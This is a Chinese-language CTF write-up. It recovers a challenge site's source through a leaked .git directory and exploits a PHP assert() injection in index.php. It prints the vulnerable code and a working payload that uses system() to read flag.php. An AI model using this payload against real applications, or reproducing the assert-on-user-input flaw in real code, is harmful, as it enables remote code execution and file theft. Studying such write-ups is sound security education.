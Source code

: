 ### 做法：

分析.git中泄露的源码

### 思路：

在浏览网页的时候，发现在关于About页面中有Git，尝试访问**.git**文件

> #### .git 源码泄露：
>
> 在利用git init初始化代码仓库时，会生成一个名为.git的隐藏文件，可以利用该文件恢复源代码。发布代码时若不删除该文件会产生.git源码泄露漏洞。

### 步骤：

1. 使用[Githack](https://github.com/lijiejie/GitHack)利用漏洞获取源代码

   > Githack需要用python2环境运行

   ![](http://psfll7bqq.bkt.clouddn.com/1559316932(1).png)

   ![](http://psfll7bqq.bkt.clouddn.com/1559316955(1).png)

2. 获得源码后查看文件，发现flag.php，但是打开后没有可以利用的线索。

   ![](http://psfll7bqq.bkt.clouddn.com/1559411868(1).png)

3. 继续浏览文件，推测突破口可能在index.php中

   ```PHP
   <?php
   
   if (isset($_GET['page'])) {
   	$page = $_GET['page'];
   } else {
   	$page = "home";
   }
   
   $file = "templates/" . $page . ".php";
   
   // I heard '..' is dangerous!
   assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
   
   // TODO: Make this look nice
   assert("file_exists('$file')") or die("That file doesn't exist!");
   
   ?>
   ```

   #### 函数介绍：

   > - assert(str)：str会被解析为代码来执行，返回true或false
   > - strpos(str,obj_str)：返回obj_str在str中第一次出现的位置

4. 审计代码后发现该主机对上传的page值没有做任何过滤，存在可以利用的本地文件包含漏洞。

   可构造恶意page值传入，所用payload：

   `page=suibian') or system("cat templates/flag.php");//`

   拼接后：

   `$file = "templates/" . "suibian') or system("cat templates/flag.php");". ".php";`

   接下来：

   ```php
   assert("strpos('templates/suibian') or system("cat templates/flag.php");
   //.php', '..') === false") or die("Detected hacking attempt!"); 本行已被注释
   ```

   由于strpos返回false，or后的语句被执行。

5. 在注释中找到flag

![](http://psfll7bqq.bkt.clouddn.com/1559323483(1).jpg)

### 参考链接：

<https://blog.csdn.net/silence1_/article/details/89741733>

